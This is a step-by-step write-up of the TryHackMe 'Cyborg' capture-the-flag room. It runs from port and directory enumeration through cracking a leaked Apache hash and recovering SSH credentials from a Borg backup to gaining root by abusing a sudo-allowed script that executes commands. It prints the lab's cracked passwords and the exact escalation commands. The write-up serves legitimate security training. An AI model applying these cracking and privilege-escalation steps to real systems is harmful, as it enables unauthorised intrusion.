







# Cyborg — Walkthrough

🔗 **TryHackMe Room:** [Cyborg](https://tryhackme.com/room/cyborgt8)

<p align="center">
  
</p>

```diff
> the web server leaks a hash • Borg opens the backup vault • alex leaves us a sudo-shaped root ladder
```

---

## ℹ️ Information

- **Platform:** TryHackMe
- **Room:** Cyborg
- **Estimated time:** about 45 minutes
- **Goal:** gain SSH access, retrieve `user.txt`, escalate to `root`, then retrieve `root.txt`
- **Exposed services:** SSH and HTTP
- **Main techniques:** web enumeration, hash cracking, Borg backup analysis, sudo script abuse

---

## 🧠 Reconnaissance

### Port Scan

Start with service enumeration:

```bash
nmap -sC -sV -oN nmap.txt cyborg.thm
```

Important results:

```text
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

Only two doors are exposed:

- SSH on port `22`
- HTTP on port `80`

HTTP is the best starting point because we do not have credentials yet. SSH can wait in the corner and look mysterious.

---

## 🧭 Web Enumeration

Run a directory brute force against the web server:

```bash
dirsearch -u http://cyborg.thm/
```

Useful findings:

```text
/admin/              200
/admin/admin.html    200
/admin/index.html    200
/etc/                200
```

The `/admin` page gives us several hints:



- possible users: `alex`, `adam`, and `josh`
- a reference to a `music_archive` backup
- a downloadable `archive.tar`

The `/etc` path exposes a password entry:



```text
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

That hash format starts with `$apr1$`, which points to Apache MD5 APR1.

👉 **Insight:**
The target is not just leaking a random hash. It is leaking a hash for something named `music_archive`, and the admin panel talks about an archive. When clues rhyme like that, follow the music.

---

## 🔐 Hash Cracking

Identify the hash:

```bash
hashid '$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.'
```

Result:

```text
[+] MD5(APR)
[+] Apache MD5
```

Crack it with Hashcat mode `1600`:

```bash
hashcat -m 1600 '$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.' /usr/share/wordlists/rockyou.txt
```

Hashcat recovers the password:

```text
music_archive:squidward
```

So we have:

```text
music_archive:squidward
```

This is not SSH access yet. It is a password for the archive path we are about to inspect.

---

## 📦 Borg Archive

Download and extract the archive from the admin page:

```bash
tar -xf archive.tar
```

Inside, we find a Borg backup repository. The included README points toward BorgBackup:



Install Borg if needed:

```bash
sudo apt install borgbackup
```

List the archive using the cracked password as the passphrase:

```bash
borg list final_archive
```

Result:

```text
music_archive  Tue, 2020-12-29 09:00:38
```

Now mount the archive:

```bash
borg mount ./final_archive /home/cyber/THM/CTF/Cyborg
```



Once mounted, inspect Alex's documents:

```bash
cd /home/cyber/THM/CTF/Cyborg/music_archive/home/alex/Documents/
cat note.txt
```

The note gives us SSH credentials:



```text
alex:S3cretP@s3
```

👉 **Insight:**
Backups are time machines with permissions problems. If sensitive notes were backed up once, they may stay recoverable long after everyone forgot they existed.

---

## 🐚 SSH Access

Use the credentials recovered from the Borg archive:

```bash
ssh alex@cyborg.thm
```

Password:

```text
S3cretP@s3
```

After login, retrieve the user flag:

```bash
cat user.txt
```



User access is complete. The first shell is not the finish line. It is the lobby, and the lobby has a very suspicious elevator.

---

## ⬆️ Privilege Escalation

### Sudo Permissions

Check sudo privileges:

```bash
sudo -l
```

Result:

```text
User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

The script is our escalation path. Inspect it:

```bash
cat /etc/mp3backups/backup.sh
```

Important ending:

```bash
while getopts c: flag
do
        case "${flag}" in
                c) command=${OPTARG};;
        esac
done

cmd=$($command)
echo $cmd
```

The script accepts a command through `-c` and executes it. Since `sudo` allows this script as root, the command runs with root privileges.

A direct path is:

```bash
sudo /etc/mp3backups/backup.sh -c /bin/bash
```

In the original notes, the script was also writable, so replacing its content with `/bin/bash` and running it through sudo produced a root shell:

```bash
echo "/bin/bash" > /etc/mp3backups/backup.sh
sudo /etc/mp3backups/backup.sh
whoami
```

Result:

```text
root
```

👉 **Insight:**
Any script that takes user-controlled input and executes it as root deserves a very long stare. If sudo blesses it, that stare becomes a root shell.

---

## 👑 Root Flag

Move to root's home directory and read the flag:

```bash
cd /root
cat root.txt
```

Root flag:

```text
flag{REDACTED}
```



---

## 🧠 Final Thoughts

Cyborg is a clean lesson in chained enumeration:

- web paths reveal the archive story
- an APR1 hash gives the Borg passphrase
- Borg exposes user credentials
- SSH gives the foothold
- a sudo backup script gives root

No single step is wildly complex, but each one depends on noticing the previous clue. The machine keeps whispering, "check the backup," and eventually the backup answers back.

---

```diff
> hash cracked • backup mounted • note recovered • sudo script promoted us to root
```

## 🔗 References

- [TryHackMe - Cyborg](https://tryhackme.com/room/cyborgt8)
- [BorgBackup Documentation](https://borgbackup.readthedocs.io/)
- [Hashcat Example Hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)

---

The original solving notes are preserved in [Cyborg-Notes.md](Cyborg-Notes.md).
